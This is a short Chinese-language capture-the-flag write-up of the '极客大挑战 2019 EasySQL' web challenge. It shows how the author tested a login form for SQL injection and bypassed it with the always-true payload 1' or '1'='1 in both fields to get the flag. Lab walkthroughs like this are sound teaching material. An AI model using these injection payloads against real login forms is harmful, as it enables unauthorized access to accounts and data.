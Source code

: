 # Web

## [极客大挑战 2019]EasySQL 1

网页环境<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697269227979-fd564186-7adb-4eaf-9e3e-8424fdd19fa4.png#averageHue=%230c0c0c&clientId=uf24ad900-2f88-4&from=paste&height=747&id=u1f8820fd&originHeight=934&originWidth=1913&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=569569&status=done&style=none&taskId=u5bf2ca64-b145-4ca8-9fea-76843b29330&title=&width=1530.4)<br />可以看到是一个登录窗口，题目已经说了是SQL注入<br />首先试一下弱口令，admin,123<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697269500707-e261da2b-33fa-446f-b907-e898575facae.png#averageHue=%23100909&clientId=uf24ad900-2f88-4&from=paste&height=747&id=u4b689535&originHeight=934&originWidth=1899&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=576337&status=done&style=none&taskId=ue42bb3eb-811a-4bb8-a5ad-0a9c898c1fb&title=&width=1519.2)<br />提示用户名密码错了<br />既然是第一道题，那应该是很简单了<br />判断是数字型还是字符型

1. 数字型

`and 1=1 回显正常`<br />`and 1=2 返回异常，存在数字型注入可能`

2. 字符型

`1 返回正常`<br />`1' 返回异常，存在字符型注入可能`<br />经过测试，发现username和password两个参数都可以分别注入和同时注入<br />构造payload<br />`url?usename=1'&password=1'`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697270426620-acb3876c-9f0d-4dad-b7b5-b7e2f50b557f.png#averageHue=%230b0a0a&clientId=u50427f58-e377-4&from=paste&height=750&id=uac410499&originHeight=938&originWidth=1916&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=578355&status=done&style=none&taskId=u9824586b-054d-4e84-998e-a4f99a53025&title=&width=1532.8)<br />回显报错，存在SQL字符型注入<br />**小试一下万能密码注入**<br />构造payload<br />`url?usename=1' or '1'='1&password=1' or '1'='1`<br />**回显flag**<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1697270808644-23610741-6cba-4ccc-ac0d-20688612546d.png#averageHue=%230b0a0a&clientId=u50427f58-e377-4&from=paste&height=746&id=u61a5ec44&originHeight=933&originWidth=1905&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=588001&status=done&style=none&taskId=u34c8a5ee-5cfa-462d-8975-2dd088f61f5&title=&width=1524)<br />![](https://cdn.nlark.com/yuque/0/2023/jpeg/36016220/1697271707206-5d837e64-976e-44fc-b710-05a0ca10dd88.jpeg)
